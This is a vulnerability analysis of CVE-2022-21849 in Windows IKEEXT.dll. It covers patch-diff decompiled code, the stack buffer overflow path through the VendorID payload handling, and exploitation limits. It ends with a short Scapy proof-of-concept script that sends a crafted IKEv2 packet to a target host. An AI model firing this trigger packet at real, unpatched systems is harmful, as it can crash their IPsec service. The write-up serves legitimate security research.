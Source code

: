 # Introduction

---

A vulnerability related to IKE Extension was patched on Patch Tuesday in January 2022.

A total of six vulnerabilities were patched, and we analyzed CVE-2022-21849 vulnerability, which is presumed to be received CVSS 9.8.

![Untitled](src/Untitled.png)

# RootCause

---

The diffing results for December 2021 IKEXT.dll and January 2022 IKEEXT.dll are as follows.

![Untitled](src/Untitled%201.png)

Several functions have changed, but let's analyze the `IkeLookupVendorId` function associated with this vulnerability.

The `IkeLookupVendorId` function is a function that handles payloads related to the `vendorID` of the ISAKMP protocol.

The vulnerabilities are patched as follows:

```cpp
if ( v37 == 0x1000 )
{
  *a6 = v11 - 16;
  v9 = WfpMemAlloc((unsigned int)(v11 - 16));
  if ( !v9 )
  {
    v65 = (void *)*((_QWORD *)a6 + 1);
    memcpy_0(v65, data + 2, *a6);
```

```cpp
else if ( v34 == 0x1000 )
{
  if ( IkeDoingIkeV2(v67) )
  {
    if ( a2 == 32 )
    {
      *a6 = 16;
      v6 = WfpMemAlloc(0x10ui64, 8u, (_QWORD *)a6 + 1);
      if ( !v6 )
      {
        v54 = (void *)*((_QWORD *)a6 + 1);
        memcpy_0(v54, a1 + 2, *a6);
```

After the patch, the packet being processed is checked to see if it is IkeV2 and was allocated a fixed size (0x10).

Before the patch, IkeV2 packets were not checked for IkeV2 packets, and chunks of the desired size could be allocated. 

However, when this chunk is later copied to the stack variable, Stack Buffer Overflow occurs.

# Trigger

---

When processing the `VendorID` of an ISAKMP packet, the `IkeProcessVendor` function is invoked.

```cpp
__int64 __fastcall IkeProcessVendor(__int64 a1, int a2, int a3, int *a4, _DWORD *a5)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  v15 = 0;
  v9 = IkeCopyIncomingData(&v15, a1, 4u);
  if ( v9
    || (v11 = ntohs(HIWORD(v15)), v12 = v11, (v9 = IkeVerifyPayloadLen(4i64, v11)) != 0)
    || (v9 = IkeVerifyIncomingDataSize(a1, v12)) != 0
    || (v9 = IkeLookupVendorId(*(_QWORD *)a1 + 4i64 + *(unsigned __int16 *)(a1 + 12), v12 - 4, a2, a3, a4, a5)) != 0 )
  {
    WfpReportError(v9, (__int64)"IkeProcessVendor", v10);
  }
  else
  {
    v13 = *(_WORD *)(a1 + 12);
    *(_WORD *)(a1 + 14) = v13;
    *(_WORD *)(a1 + 12) = v12 + v13;
  }
  return v9;
}
```

This function performs length validation for `VendorID payload` and calls the vulnerable function `IkeLookupVendorId` function when validation is complete.

Within the `IkeLookupVendorId` function, refer to `vendorIdMapping` to compare the MD5 hash value with the value of the `vendorID` being processed.

![Untitled](src/Untitled%202.png)

To reach the vulnerable code path, set the VendorID value to `"MSFT IPsec Security Realm Id"`.

Then, the following code path can be reached.

```cpp
if ( v37 == 0x1000 )
{
  *a6 = v11 - 16;
  v9 = WfpMemAlloc((unsigned int)(v11 - 16));
  if ( !v9 )
  {
    v65 = (void *)*((_QWORD *)a6 + 1);
    memcpy_0(v65, data + 2, *a6);
```

`v11` stores the length of the payload, so you can get as much memory as you want.

Allocated memory stores the value of the payload.

After the above function ends, `IkeIsVendorIdPresent` returns to the `IkeHandleSecurityRealmVendorId` function.

```cpp
__int64 __fastcall IkeHandleSecurityRealmVendorId(__int64 a1, __int64 a2, __int64 a3)
{
// ***
// ***
  __int64 out[2]; // [rsp+40h] [rbp-99h] BYREF
  char v35[80]; // [rsp+50h] [rbp-89h] BYREF
  char v36[80]; // [rsp+A0h] [rbp-39h] BYREF

  out[0] = 0i64;
  out[1] = 0i64;
  v6 = 0i64;
  memset_0(v35, 0, 0x42ui64);
  IsVendorIdPresent = IkeIsVendorIdPresent(a3, (_DWORD *)(a1 + 584), 4096, (__int64)out);
  v8 = out[1];
  if ( IsVendorIdPresent )
  {
    v9 = out[0];
    WfpBytesToString(LODWORD(out[0]), out[1], v35);
```

At this point, the `WfpBytesToString` function is invoked, copying the value of the saved payload into the `v35` variable in unicode form.

During this process, a stack buffer overflow occurs.

![Untitled](src/Untitled%203.png)

# Limitations

---

- Exploit seems difficult because it is a buffer overflow vulnerability occurring on the stack.
- Local variables can be overwritten, but it seems difficult to exploit because the type of manipulative value is wchar and ascii range.

# PoC

---

```python
from scapy.all import *
from scapy.contrib.ikev2 import *

import socket

target = ("192.168.159.136", 500)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

pkt = IKEv2(init_SPI=RandString(8), exch_type=34, flags=0x8) 
pkt /= IKEv2_payload_SA(prop=IKEv2_payload_Proposal(), next_payload=34)
pkt /= IKEv2_payload_KE(next_payload=43)
#"MSFT IPsec Security Realm Id"
pkt /= IKEv2_payload_VendorID(vendorID=b"\x68\x6a\x8c\xbd\xfe\x63\x4b\x40\x51\x46\xfb\x2b\xaf\x33\xe9\xe8" + b"a"*0x100)

sock.sendto(raw(pkt), target)
```

[2022-08-26 11-00-13.mkv](src/2022-08-26_11-00-13.mkv)

# Links

---

[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21849](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-21849)

[https://www.zerodayinitiative.com/blog/2022/1/11/the-january-2022-security-update-review](https://www.zerodayinitiative.com/blog/2022/1/11/the-january-2022-security-update-review)